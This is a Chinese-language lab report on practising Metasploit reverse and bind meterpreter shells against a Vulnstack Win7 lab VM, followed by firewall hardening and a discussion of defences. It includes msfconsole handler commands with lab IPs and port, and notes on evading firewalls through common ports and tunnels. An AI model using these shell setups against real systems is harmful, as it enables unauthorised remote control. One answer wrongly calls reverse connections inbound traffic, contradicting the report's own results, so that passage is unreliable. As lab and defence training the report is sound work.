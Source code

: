 # 渗透测试实验报告 - 正反向Shell攻防实践
### 目标机为vulnstack-win7,攻击机为kali
 实验信息

· 实验名称: 基于MSF的正反向Shell攻防实践

· 实验日期: 2025-10-28

· 实验环境: Kali Linux (攻击机) + Vulnstack-Win7 (靶机)

一、实验目的

1. 掌握MSFVenom工具生成定制化有效负载的方法
2. 理解正向Shell与反向Shell的本质区别及适用场景
3. 学习通过防火墙规则配置进行主机安全加固
4. 分析不同网络环境下的Shell连接策略选择

二、实验环境

角色 系统 IP地址 备注
攻击机 Kali Linux 192.168.19.128 渗透测试平台

目标机 Windows 7 192.168.19.135 Vulnstack漏洞环境

三、实验步骤

任务1：环境准备

· 下载并安装Vulnstack-Win7漏洞环境

· 确保攻击机与目标机网络连通性

任务2：生成有效负载
1. 生成反向TCP Shell<br>
(1)：打开kali终端，执行命令生成payload
![生成payload](payload.png)

(2)查询目标机ip及开放端口
![目标机ip和开放端口](cxkfdk.png)
2. 生成正向TCP Shell
![正向TCP Shell](zxtcp.png)

3. 配置Metasploit/multi/handler模块<br>
(1)启动msfconsole,加载反向Shell监听模块


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.19.128
set LPORT 7777
exploit
```
![启动msfconsole](msfconsole.png)
加载反向shell
![加载反向shell](fxshell.png)
配置正向Shell连接

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 192.168.19.135
set LPORT 7777
exploit
```
# 对目标windows主机进行安全加固
### 创建入站阻止规则
 
1. 进入win7 虚拟机

2. 点击入站规则→新建规则，选择“端口”→“TCP”→输入需阻止的端口→选择“阻止连接”→应用到“域、专用、公用”所有配置文件→命名规则。
![设置入站规则](rzgz.png)
### 创建出站阻止规则
 
1. 点击出站规则→新建规则，重复上述步骤，阻止相同端口的出站连接。
![设置出站规则](czgz.png)

防御效果验证

· 执行生成的Shell程序

· 验证正向/反向Shell均无法建立连接

· 记录防火墙拦截日志

正向超时

![正向超时](zxcs.png)

反向超时

![反向超时](fxcs.png)
实验结果与分析

1. 正反向Shell对比

反向Shell 目标机→攻击机 目标机有公网IP或出站限制宽松 绕过入站防火墙，需要攻击机有固定IP

正向Shell 攻击机→目标机 目标机无出网权限或内网环境 依赖目标机开放端口，易被入站规则拦截

防御效果验证结果

· 加固前: 正反向Shell均能成功建立连接

· 加固后:
  · 反向Shell被出站规则阻断

  · 正向Shell被入站规则阻断

结论: 防火墙规则配置有效防御了本次攻击
# 在真实的渗透测试中，什么场景下更适合使用反向Shell?什么场景下更适合使用正向Shell？
### 更适合反向Shell：
  1. 目标主机位于内网，无公网IP
  攻击者无法主动连接目标，只能让目标主动“反弹”连接攻击者的公网监听端口。
  2. 目标主机出站流量未被严格限制
  即使目标主机入站端口被封，只要它能访问外网（如DNS、HTTP等），就可以通过反向shell建立连接。
  3. 绕过防火墙或IPS/IDS设备
  反向shell可以通过常见端口（如80、443）或加密通道（如HTTPS、DNS隧道）伪装流量，降低被检测的风险。
  4. 目标主机存在命令执行漏洞，但无法上传文件或开启服务
  此时可通过一句话反弹命令（如bash、python、perl等）直接获取shell，无需上传木马。<br>
### 更适合正向Shell：
  1. 目标主机拥有公网IP，且端口可访问
  攻击者可以直接连接目标主机的开放端口（如通过漏洞上传木马并监听端口）。
  2. 目标主机处于攻击者同一内网中
  如内网横向渗透阶段，攻击者已通过跳板机进入内网，可直接连接目标主机的正向shell。
  3. 目标主机出网受限（如仅允许特定白名单IP出站）
此时反向shell无法成功回连，只能尝试正向连接
  4. 需要长期维持访问，且目标主机稳定在线
  正向shell可结合自启动、计划任务等方式实现持久化，适合控制服务器类目标。

  
# 仅通过配置出站规则，能否有效防御所有反向链接？为什么？
仅配置出站规则不能有效防御所有反向链接
1. 出站规则无法控制入站流量  
出站规则仅对内部主机主动发起的连接生效，而反向链接（reverse connection）是外部主机主动连接到内部主机，属于入站流量。
2. 出站规则只能限制部分反向连接行为，但无法防御所有类型的反向链接，尤其是在攻击者使用协议伪装、隧道技术或利用入站通道时。
# 除了基于端口的防火墙规则，还有哪些更高级的加固手段可以防御此类攻击？
1. 应用层协议识别（DPI）
- 深度包检测（DPI）技术可以分析数据包的内容，识别隐藏在合法协议（如HTTP、DNS、ICMP）中的恶意通信。
2. 行为分析与异常检测
- 基于行为建模的安全系统（如EDR、NDR）可监控主机或网络的通信行为。
3. 协议封装与隧道识别
5. 应用白名单与零信任架构
6. 网络分段与微隔离
7. 加密流量检测